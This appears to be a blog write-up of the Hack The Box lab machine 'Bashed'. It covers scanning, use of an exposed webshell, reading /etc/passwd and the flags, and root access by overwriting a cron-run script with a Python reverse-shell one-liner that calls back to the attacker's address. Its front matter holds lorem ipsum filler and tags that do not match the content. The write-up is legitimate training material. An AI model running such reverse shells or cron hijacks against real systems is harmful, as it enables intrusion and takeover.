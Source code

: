 ```yaml
---
layout: single
title: Bashed - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-bashed/bashed_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-bashed/bashed_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/bashed]# nmap -Pn -n -sCV 10.10.10.68                                                                              (master✱)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Arrexel's Development Site

  DIRB:
  ==> DIRECTORY: http://10.10.10.68/css/
  ==> DIRECTORY: http://10.10.10.68/dev/
  ==> DIRECTORY: http://10.10.10.68/fonts/
  ==> DIRECTORY: http://10.10.10.68/images/
  + http://10.10.10.68/index.html (CODE:200|SIZE:7743)
  ==> DIRECTORY: http://10.10.10.68/js/
  ==> DIRECTORY: http://10.10.10.68/php/
  + http://10.10.10.68/server-status (CODE:403|SIZE:299)
  ==> DIRECTORY: http://10.10.10.68/uploads/

  NIKTO:
  + Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
  + /config.php: PHP Config file may contain database IDs and passwords.


2. Enumerating the dirb results we quickly find http://10.10.10.68/dev/phpbash.php, a responsive webshell.

    www-data@bashed:/var/www/html/dev# whoami
      www-data

    www-data@bashed:/var/www/html/dev# cat /etc/passwd
      root:x:0:0:root:/root:/bin/bash
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
      systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
      systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
      systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
      syslog:x:104:108::/home/syslog:/bin/false
      _apt:x:105:65534::/nonexistent:/bin/false
      messagebus:x:106:110::/var/run/dbus:/bin/false
      uuidd:x:107:111::/run/uuidd:/bin/false
      arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
      scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash

    www-data@bashed:/home/arrexel# cat user.txt
      2c281f318555dbc1b856957c7147bfc1


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Investigate if we can run anything as root.

    www-data@bashed:/home# sudo -l

      Matching Defaults entries for www-data on bashed:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User www-data may run the following commands on bashed:
      (scriptmanager : scriptmanager) NOPASSWD: ALL


    www-data@bashed:/# sudo -u scriptmanager ls -al /scripts
      total 16
      drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 .
      drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
      -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
      -rw-r--r-- 1 root root 12 Feb 23 05:22 test.txt

    www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
      f = open("test.txt", "w")
      f.write("testing 123!")
      f.close

    www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
      testing 123!


2. As we can see from the ls-output above, test.txt is owned by root, maybe the script test.py is ran as root by a cronjob?
   Modify the script with a python one-liner, setup a local listener and wait.

   www-data@bashed:/# sudo -u scriptmanager echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",4499));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
   [root:/git/htb/bashed]# nc -lvnp 4499                                                                                             (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.68] 40690
    /bin/sh: 0: can't access tty; job control turned off
    # whoami
      root
    # cat /root/root.txt
      cc4f0afe3a1026d402ba10329674a8e2


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
